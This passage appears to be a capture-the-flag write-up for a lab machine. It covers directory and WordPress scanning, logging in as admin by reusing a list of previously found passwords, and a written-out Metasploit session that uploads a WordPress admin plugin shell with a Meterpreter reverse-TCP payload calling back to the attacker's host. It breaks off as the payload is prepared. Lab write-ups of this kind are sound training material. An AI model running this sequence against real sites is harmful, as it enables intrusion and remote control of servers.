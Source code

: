 So we have an HTTP server and a database that we can't talk to (unauthorized means we can't talk to it, not that it allows anonymous access)

### The Web Server

Navigating to http://10.10.10.29 in our browser we see the default IIS homepage.  Nothing interesting here, so let's use dirbuster: ![Dirbuster config settings](images/dirbuster.png)

And we get some interesting result:
![Dirbuster results](images/dirbuster-results.png)

### WordPress

http://10.10.10.29/wordpress shows a basic website and, when we scan it with wpscan, there's no obvious RCEs.  WPScan does reveal that it's wordpress 5.2.1 but google confirms that there's just a few XSS and authenticated attacks available.  So either WordPress isn't a vector, or we have to brute force the login page.

We know from our previous boxes that this company re-uses passwords, and it's always a good thing to try the passwords we already know:

• MEGACORP_4dm1n!!
• M3g4c0rp123
• M3g4C0rpUs3r!
• qwerty789
• P@s5w0rd!
• mc@F1l3ZilL4

Out of these, “P@s5w0rd!” lets us login as “admin” and we're off to the races.

### Getting a Foothold 

There's a couple ways to do this.  My initial thought was to use a simple PHP backdoor that I wrote and install it as a plugin which registered a shortcode to trigger the RCE.  This worked fine, and I'll leave this as an exploration point because I don't like posting code for trojans.

That said, there's a simpler way and that's with metasploit!

Open up msfconsole, select the wp_admin_plugin_shell exploit, configure it, and run:

```cli

└─$ msfconsole
...
msf6 > search wp admin plugin shell
...
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
...
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.47
LHOST => 10.10.14.47
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.14.47:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
```